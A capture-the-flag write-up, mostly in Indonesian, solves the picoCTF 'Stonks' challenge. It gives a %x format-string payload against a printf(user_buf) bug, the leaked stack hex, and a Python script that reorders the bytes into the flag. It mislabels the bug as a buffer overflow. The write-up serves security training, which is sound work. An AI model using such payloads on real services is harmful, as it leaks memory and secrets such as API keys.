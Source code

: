# Stonks

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/62f47b5b65ec7eadb96c4e34f016f68d/vuln.c) `nc mercury.picoctf.net 53437`

## Hints
Okay, maybe I'd believe you if you find my API key.

## Solving
lihat ke **vuln.c** disana ada baris yang berisi
>printf(user_buf);

itu kita bisa exploit menggunakan anomali "buffer_overflow" dengan memasukkan input di bawah ini,
pertama kita masuk ke terminal ketikkan:
>nc mercury.picoctf.net 53437

masukkan input seperti dibawah ini
![](CTF/PicoCTF-Penyelesaian/lainnya/008.%20Stonks%20(SOLVED)/Screenshot%20from%202021-12-09%2021-25-36.png)
lalu masukkan kode buffernya:
```
x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xx%x%x%x%x%
```

>ini akan menimpa data yang berdekatan dan menyebabkan data itu terlihat di terminal kita.

data yang terlihat dari exploitasi tersebut:
```
x8f9b3f0804b00080489c3f7f6bd80ffffffff18f99160f7f79110f7f6bdc708f9a18028f9b3d08f9b3f06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3463646261653532ff96007df7fa6af8f7f79440cc1d6100
```

konversikan dari hex ke ascii di https://www.rapidtables.com/convert/number/hex-to-ascii.html
akan ketemu baris seperti ini
>ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ}

kode ini diacak jadi kita harus memecahkannya terlebihdahulu, bisa dengan cara manual atau bisa juga dengan menggunakan bahasa pemrograman, di sini saya menggunakan python untuk men-decode baris di atas.

buat program python untuk decoder
```
s='ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ}'

from contextlib import suppress

print()

for x in range(0,len(s),4):

	with suppress(Exception):

		print(s[x+3],end="")

	with suppress(Exception):

		print(s[x+2],end="")

	with suppress(Exception):

		print(s[x+1],end="")

	with suppress(Exception):

		print(s[x],end="")

  

print("\n")
```
jalankan akan ketemu kode
>picoCTF{I_l05t_4ll_my_m0n3y_......}
## Flag
picoCTF{I_l05t_4ll_my_m0n3y_............}

## Referensi
https://www.youtube.com/watch?v=ctpQdH-GGqY
https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Binary%20Exploitation/Stonks/Stonks.md
https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Binary%20Exploitation/Stonks/script.py